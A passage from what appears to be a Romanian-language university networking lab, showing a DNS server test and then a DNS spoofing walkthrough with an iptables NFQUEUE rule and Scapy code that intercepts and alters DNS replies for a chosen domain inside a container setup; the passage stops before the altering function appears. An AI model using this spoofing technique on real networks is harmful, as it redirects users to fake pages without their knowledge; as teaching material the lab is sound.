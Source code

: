 ```python
simple_udp.close()
```

Testați-l cu
```bash
dig @localhost fmi.unibuc.ro
```

<a name="scapy_dns_spoofing"></a> 
#### DNS Spoofing
Dacă intermediem conexiunea între două noduri, putem insera răspunsuri DNS malițioase cu scopul de a determina userii să acceseze pagini false. Pe linux, un DNS customizabil se poate set prin fișierul `/etc/resolv.conf` sau ca în [exemplul de aici](https://unix.stackexchange.com/questions/128220/how-do-i-set-my-dns-when-resolv-conf-is-being-overwritten)).

Presupunem că folosim configurația de containere definită în acest capitol, că ne aflăm pe containerul `router` și că monitorizăm toate cererile containerul `server`. În cazul în care observăm un pachet UDP cu portul destinație 53 (e.g., IP destinație 8.8.8.8), putem încerca să trimitem un reply care să pară că vine de la DNS (8.8.8.8) cu o adresă IP falsă care nu apraține numelui interogat de către server. 
E posibil ca reply-ul nostru să ajungă la containerul `server`, dar și reply-ul serverul DNS original (8.8.8.8) să ajungă tot la container. Pentru ca atacul să fie cât mai lin, cel mai sigur este să modificăm live răspunsurile DNS-ului original (8.8.8.8) după următoarele instrucțiuni ([sursa originală](https://www.thepythoncode.com/article/make-dns-spoof-python)):

##### 1. iptables forward către nfqueue
Ne atașăm containerului `router` pentru a ataca containerul `server`. Construim o regulă de iptables prin care toate pachetele care trebuie forwardate (-I FORWARD) să treacă prin regula NFQUEUE cu număr de identificare 10 (putem alege orice număr).
```bash
docker compose exec router bash

iptables -I FORWARD -j NFQUEUE --queue-num 10
```
##### 2. Scriem o funcție care detectează și modifică pachete de tip DNS reply
Deschidem un terminal de python sau executăm `python3 /elocal/capitolul3/src/examples/dns_spoofing.py`:
```python
#!/usr/bin/env python3

from scapy.all import *
from netfilterqueue import NetfilterQueue as NFQ
import os

def detect_and_alter_packet(packet):
    """Functie care se apeleaza pentru fiecare pachet din coada
    """
    octets = packet.get_payload()
    scapy_packet = IP(octets)
    # daca pachetul are layer de IP, UDP si DNSRR (reply)
    if scapy_packet.haslayer(IP) and scapy_packet.haslayer(UDP) and scapy_packet.haslayer(DNSRR):\
        # daca e site-ul fmi, apelam functia care face modificari
        if scapy_packet[DNSQR].qname == b'fmi.unibuc.ro.':
            print("[Before]:", scapy_packet.summary())
            # noul scapy_packet este modificat cu functia alter_packet
            scapy_packet = alter_packet(scapy_packet)
            print("[After ]:", scapy_packet.summary())
            # extragem octetii din pachet
            octets = bytes(scapy_packet)
            # il punem inapoi in coada modificat
            packet.set_payload(octets)
    # apelam accept pentru fiecare pachet din coada
    packet.accept()

```